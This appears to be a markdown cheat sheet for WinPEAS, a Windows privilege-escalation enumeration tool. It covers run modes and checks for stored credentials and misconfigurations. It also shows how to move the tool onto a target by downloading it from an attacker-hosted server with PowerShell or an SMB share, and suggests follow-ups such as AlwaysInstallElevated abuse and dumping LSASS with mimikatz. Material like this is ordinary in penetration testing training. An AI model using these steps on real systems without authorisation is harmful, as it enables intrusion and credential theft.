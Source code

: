 ## 🚀 Execution on Target

From Windows command prompt or PowerShell:

```
winPEASany.exe
```

Optional (less output):

```
winPEASany.exe quiet
```

Run with all checks:

```
winPEASany.exe all
```

Color-friendly output:

```
winPEASany.exe color
```

Output to file:

```
winPEASany.exe > peas_output.txt
```

## 🔍 Notable Enumeration Features

| Category                   | Checks                                                  |                    |
| -------------------------- | ------------------------------------------------------- | ------------------ |
| 🔐 **Credentials**         | Stored passwords, SAM, LSA secrets, saved creds         |                    |
| 🧑‍💼 **Users/Groups**     | Admin users, logged-in users, domain info               |                    |
| 💾 **Files & Permissions** | Writable/owned files, unquoted service paths            |                    |
| 🛠 **Services**            | Misconfigured, vulnerable or weakly secured services    |                    |
| 🖥 **Scheduled Tasks**     | Autoruns, startup items, task misconfigurations         |                    |
| 🌐 **Network Info**        | Shares, open ports, firewall rules                      |                    |
| 📄 **Registry**            | Auto-run keys, stored passwords, UAC settings           |                    |
| 📦 **Installed Software**  | Known vulnerable software, running AV                   |                    |
| 🧰 **Other**               | AlwaysInstallElevated, WSL, UAC status, PowerShell logs | ## 🛠 Useful Modes |

### 🛠 Useful Modes

| Mode            | Command                          |
| --------------- | -------------------------------- |
| Quiet mode      | `winPEASany.exe quiet`           |
| Full scan       | `winPEASany.exe all`             |
| Only user info  | `winPEASany.exe userinfo`        |
| Search keywords | `winPEASany.exe search:password` |
| Help            | `winPEASany.exe help`            |

## 📁 Transferring to Target

### Method 1: Python HTTP Server

On attacker's Linux machine

```
python3 -m http.server 8080
```

On target Windows machine

```
powershell -c "Invoke-WebRequest http://<attacker-ip>:8080/winPEASany.exe -OutFile winPEAS.exe"
```

### Method 2: SMB Share

```
sudo impacket-smbserver share $(pwd) -smb2support
```

```
copy \\<attacker-ip>\share\winPEASany.exe .
```

## 🔧 Post-Enumeration Tips

After running `WinPEAS`, look for:

- 🔑 **Stored credentials** in config files, registry, or SAM
- 🔁 **Always Install Elevated**: run `.msi` as SYSTEM
- 🗂 **Unquoted service paths** with writable directories
- 🧨 **Weak service permissions** (`sc qc`, `accesschk.exe`)
- 🔧 **Writable scheduled tasks**
- 🧾 **Credential files**: `unattend.xml`, `sysprep.xml`, etc.
- 🧠 **Running as SYSTEM**? Time to dump LSASS (`mimikatz`) or escalate to domain.












